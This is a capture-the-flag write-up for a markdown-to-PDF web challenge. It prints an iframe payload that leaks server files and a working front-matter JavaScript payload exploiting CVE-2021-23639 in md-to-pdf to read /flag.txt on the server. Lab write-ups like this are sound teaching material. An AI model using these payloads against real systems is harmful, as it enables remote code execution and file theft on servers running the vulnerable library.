

# My little website

## Challenge

```txt
I am new to programming and made this simple pdf creater website here, hopefully it is secure enough :)...
```

## Walkthrough

We're given a webapp that takes markdown input and converts it to a PDF. First thing I tried was writing some HTML code to list files in the directory.

```md
<iframe src="/" height=600 width=700></iframe>
```



That worked pretty well! From here I leaked files from the server that I found interesting such as `package-lock.json`, `index.js` and the `patches` folder.

package-lock.json

```json
...
"packages": {
    "": {
        "name": "pdf_thingy",
        "version": "1.0.0",
        "license": "ISC",
        "dependencies": {
            "express": "4.18.1",
            "md-to-pdf": "4.0.0",
            "patch-package": "^6.4.7"
        }
    },
...
```

patches/

```diff
diff --git a/node_modules/md-to-pdf/dist/lib/config.js b/node_modules/md-to-pdf/dist/lib/config.js
index bf571bd..e24db15 100644
--- a/node_modules/md-to-pdf/dist/lib/config.js
+++ b/node_modules/md-to-pdf/dist/lib/config.js
@@ -21,7 +21,7 @@ exports.defaultConfig = {
 left: '20mm',
 },
 },
- launch_options: {},
+ launch_options: {args: ["--no-sandbox"]},
 md_file_encoding: 'utf-8',
 stylesheet_encoding: 'utf-8',
 as_html: false,
```

index.js

```js
// ...
const { mdToPdf } = require('md-to-pdf')

app.post('/submit', async (req, res) => {
    const md_string = req.body.md_data
    const pdf = await mdToPdf({ content: md_string, langugage: 'javascript' }).catch(console.error);
// ...
```

The author was using an outdated version of `md-to-pdf` and given that the `--no-sandbox` argument was being passed it was pretty clear that this was the library I'd have to exploit. I found [CVE-2021-23639](https://security.snyk.io/vuln/SNYK-JS-MDTOPDF-1657880), an RCE exploit that affected `md-to-pdf` < 5.0.0.

> Affected versions of this package are vulnerable to Remote Code Execution (RCE) due to utilizing the library gray-matter to parse front matter content, without disabling the JS engine.

Modifying the POC slightly I was able to execute nodejs and read the flag into the PDF file.

```md
---js
{
    css: `body::before { content: "${require('fs').readFileSync('/flag.txt').join()}"; display: block }`,
}
---
```

## Solve

`CTF{pdf_c0nt1nu3s_70_5uCK}` (author spitting facts)